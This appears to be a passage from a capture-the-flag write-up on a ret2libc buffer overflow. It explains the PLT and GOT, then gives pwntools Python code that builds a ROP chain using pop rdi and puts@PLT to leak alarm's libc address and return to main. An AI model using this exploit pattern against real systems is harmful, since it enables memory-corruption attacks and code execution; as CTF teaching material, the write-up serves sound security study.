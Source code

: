 The `PLT` will allow us to call the function and allow us to jump to it.

So let's try to find another function in the `GO`T where we can grab a function that is dynamically loaded with `libc`.

This could very well be possible because we see `alarm()` being called.

We can obtain these locations/addresses by using GOT and PLT of our ELF.

```python
puts_plt = exe.plt.puts                              # Obtain puts() from PLT
alarm_got = exe.got.alarm                            # Obtain alarm() from GOT
success(f'{hex(puts_plt)=}')                         # Print location of puts() from PLT
success(f'{hex(alarm_got)=}')                        # Print location of alarm() from GOT
```

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Seeing functions obtained from both the <code>PLT</code> and <code>GOT</code>.</p></figcaption></figure>

This is great, this means that we can use the `puts()` function to display the `alarm()` function in the `GOT` through runtime.

We will need a ROP gadget (`POP_RDI`) to pop the `alarm_got` into `RDI` so we can call `puts()` from the `PLT`.

```python
def main():
    
    offset = 32
    length = 90
    r = conn()
    prompt = r.recvuntil(b'\n> ')                   
    print(prompt.decode('utf-8'))                   # Print out prompt that's given to us -- need to use utf-8 as it is sent as bytes
    # r.send(b'A'*100)
    payload = b''.join([                            # Use join() to join all elements in a list into one string
        b'A'*offset,
        #b'\x42\x42\x42\x42\x42\x42\x42\x42',       # This is the same as "BBBBBBBB", this will send 8 B's after 32 A's (our offset value) 
        p64(ret),                                   # Stack-alignment issues requires a ret gadget here
        p64(pop_rdi),                               # ROP Gadget to pop alarm_got into the RDI register
        p64(alarm_got),                              
        p64(puts_plt),                              # Call puts() from PLT
        p64(main_function),                         # Jump back into main(), executing it twice -- needs to be packed into the binary's format (64-bit representation) this is because we received the numeric value from main_function
    ])
    
    payload += b'C'*(length -len(payload))          # A's at the top, B's for injection test, and C's for padding out the original length of data to send out

    r.send(payload)

    # good luck pwning :)

    r.interactive()
```